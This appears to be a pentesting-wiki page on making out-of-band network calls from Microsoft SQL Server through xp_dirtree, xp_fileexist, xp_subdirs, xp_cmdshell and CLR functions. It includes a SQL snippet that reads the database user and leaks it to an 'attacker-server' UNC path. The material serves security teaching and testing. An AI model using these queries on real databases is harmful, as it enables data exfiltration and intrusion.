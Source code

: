 ```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='CONTROL SERVER';
# Or doing
Use master;
EXEC sp_helprotect 'fn_trace_gettabe';
```

### `xp_dirtree`, `xp_fileexists`, `xp_subdirs` <a href="#limited-ssrf-using-master-xp-dirtree-and-other-file-stored-procedures" id="limited-ssrf-using-master-xp-dirtree-and-other-file-stored-procedures"></a>

The most common method to make a network call yosqlu will come across using MSSQL is the usage of the Stored Procedure `xp_dirtree`, which weirdly is undocumented by Microsoft, which caused it to be [documented by other folks on the Internet](https://www.baronsoftware.com/Blog/sql-stored-procedures-get-folder-files/). This method has been used in [multiple examples](https://www.notsosecure.com/oob-exploitation-cheatsheet/) of [Out of Band Data exfiltration](https://gracefulsecurity.com/sql-injection-out-of-band-exploitation/) posts on the Internet.

Essentially,

```sql
DECLARE @user varchar(100);
SELECT @user = (SELECT user);  
EXEC ('master..xp_dirtree "\\'+@user+'.attacker-server\aa"');
```

Much like MySQL’s `LOAD_FILE`, you can use `xp_dirtree` to make a network request to **only TCP port 445**. You cannot control the port number, but can read information from network shares.&#x20;

**PS:** This does not work on `Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)` running on a `Windows Server 2016 Datacenter` in the default config.

There are **other** stored procedures **** [**like `master..xp_fileexist`**](https://social.technet.microsoft.com/wiki/contents/articles/40107.xp-fileexist-and-its-alternate.aspx) or **`xp_subdirs`** that can be used for similar results.

### `xp_cmdshell` <a href="#master-xp-cmdshell" id="master-xp-cmdshell"></a>

Obviously you could also use **`xp_cmdshell`** to **execute** something that triggers a **SSRF**. For more info **read the relevant section** in the page:

{% content-ref url="../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/" %}
[pentesting-mssql-microsoft-sql-server](../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/)
{% endcontent-ref %}

### MSSQL User Defined Function - SQLHttp <a href="#mssql-user-defined-function-sqlhttp" id="mssql-user-defined-function-sqlhttp"></a>

It is fairly straightforward to write a **CLR UDF** (Common Language Runtime User Defined Function - code written with any of the **.NET** languages and compiled into a **DLL**) and **load it within MSSQL for custom functions**. This, however, **requires `dbo` access** so may not work unless the web application connection to the database **as `sa` or an Administrator role**.
